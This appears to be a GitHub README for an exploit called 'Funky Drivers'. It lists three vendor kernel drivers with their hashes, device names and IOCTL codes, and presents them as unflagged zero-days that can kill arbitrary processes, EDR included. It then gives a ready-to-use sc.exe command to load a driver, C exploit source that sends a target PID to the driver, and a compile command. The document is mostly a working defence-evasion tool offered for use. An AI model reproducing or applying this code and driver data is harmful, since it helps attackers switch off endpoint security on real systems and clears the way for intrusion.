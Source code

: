 # Funky Drivers

These drivers expose process termination APIs (e.g., `ZwTerminateProcess`) that can be used to terminate arbitrary processes (e.g. EDR). 
None of the drivers is flagged are malicious on VirusTotal. All vulnerabilities are "ZeroDays". 

## Driver 1 - GOLINK Software `GoFly.sys`

```
SHA256: 2FDFDD13A0C548BB68C9D5AA8599A9265D4659DA3E237FE7A42AC6AC06B9A06A
DeviceName: \\.\GoFly
IOCTL: 0x12227A
```

## Driver 2 - Baidu Antivirus `BdApiUtil.sys`

```
SHA256: 32198295D2A2700B9895FFF999C2B233F9BEFB0BC175815EC4B71EE926B6EDFC
DeviceName: \\.\BdApiUtil
IOCTL: 0x800024B4
```

## Driver 3 - K7 Antivirus `K7RKScan.sys`

```
SHA256: 5C6CE55A85F5D4640BD1485A72D0812BC4F5188EE966C5FE334248A7175D9040
DeviceName: \\.\DosK7RKScnDrv
IOCTL: 0x222018
```

## Exploit code

Create kernel service using one of the `.sys` drivers :

```Powershell
sc.exe create <ServiceName> binPath= <path.sys> type= kernel && sc.exe start <ServiceName>
```

Then compile and run exploit code with appropriate IOCTL / DeviceName

```C
#include <stdio.h>
#include <windows.h>

#define GETDAFUNK <IOCTL_HERE> // change this 

int main(void) {
  
	unsigned int pid;
	unsigned int res;
	DWORD lpBytesReturned = 0;

	HANDLE hDevice = CreateFileA("\\\\.\\<DeviceName here>", // change this 					GENERIC_WRITE|GENERIC_READ, 
					0, 
					NULL, 
					OPEN_EXISTING, 
					FILE_ATTRIBUTE_NORMAL, 
					NULL);
  
	if(hDevice == INVALID_HANDLE_VALUE){
		printf("[!] Connection to the driver failed\n");
		return -1;
	}
  
	printf("[+] Connected to driver\n");
	printf("[i] PID please : \n");
	scanf("%u", &pid);

	res = DeviceIoControl(hDevice, GETDAFUNK, &pid, sizeof(pid), NULL, 0, &lpBytesReturned, NULL);

	if (!res) {
		printf("[!] Funky IOCTL failed\n");
    		CloseHandle(hDevice);
    		return -1;
	}
  
	printf("[+] Process with PID : %u killed\n", pid);
	CloseHandle(hDevice);
  
	return 0;
}

```

```bash
x86_64-w64-mingw32-gcc -o Funkyller.exe exploit.c 
```
